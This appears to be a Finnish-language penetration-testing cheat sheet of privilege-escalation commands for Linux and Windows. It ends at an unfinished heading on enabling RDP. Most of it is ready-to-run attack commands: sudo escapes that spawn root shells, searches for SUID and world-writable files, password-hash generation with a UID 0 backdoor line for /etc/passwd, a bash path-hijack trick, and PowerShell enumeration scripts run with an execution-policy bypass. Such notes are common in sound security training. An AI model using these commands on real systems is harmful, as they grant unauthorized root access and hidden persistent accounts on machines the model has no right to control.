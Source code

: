 ```
### SUID yms.
 * https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
 * SUID filujen haku:
  - Etsi editoreja, kääntäjiä, tulkkeja tms. => read/write oikat filuihin!
  - Nmap myös: nmap –interactive + !sh
  - find / -user root -perm -4000 -print 2>/dev/null
  - find / -perm -u=s -type f 2>/dev/null
 * World-writable filuja voi etsiä komennoilla:
  - find / -perm -2 ! -type l -ls 2>/dev/null
  - find / -perm -2 -type f 2>/dev/null

### SUDO-oikeuksien käyttö:
 * sudo find /home -exec sh -i \;
 * sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
 * vi, more, less, nmap, perl, ruby, python, gdb
 * https://gtfobins.github.io/#+sudo

### Cronjobs
 * 1. Any script or binaries in cron jobs which are writable?
   2. Can we write over the cron file itself.
   3. Is cron.d directory writable?
 * ls -la /etc/cron.d
 * find / -perm -2 -type f 2>/dev/null

### Uuden käyttäjän tekeminen
 * Passuhashin generointi:
  - openssl passwd -1 -salt username password
  - mkpasswd -m SHA-512 password
  - python -c 'import crypt; print crypt.crypt("password", "$6$salt")'
  - perl -le 'print crypt("password", "abc")'
  - php -r "print(crypt('username','password') . \"\n\");"
 * Lisää rivi /etc/passwd:hen: username:passu_hashi:0:0:/root/root:/bin/bash

### Hijack a binary's full path in bash to exec your own code
 $ function /usr/bin/foo () { /usr/bin/echo "It works"; }
 $ export -f /usr/bin/foo
 $ /usr/bin/foo
 It works


## Windows privesc

### Cheatsheetit:
  * Windows_privesc.txt
  * https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
  * http://www.fuzzysecurity.com/tutorials/16.html
  * https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

### Komentojen vastaavuudet Linuxissa
 * ls -lah = dir /a
 * Rekursiivinen dir = dir /s
 * cat = type

### Enumeraatioskriptit:
  * WindowsEnum: 
    - Normaali: .\WindowsEnum.ps1 TAI powershell -nologo -executionpolicy bypass -file WindowsEnum.ps1
    - Extended: .\WindowsEnum.ps1 extended TAI powershell -nologo -executionpolicy bypass -file WindowsEnum.ps1 extended
 * Exploitteja voi hakea exploit-suggesterilla: ./windows-exploit-suggester.py --database 2019-09-20-mssb.xls --systeminfo 229_info.txt

### RDP:n aktivointi
```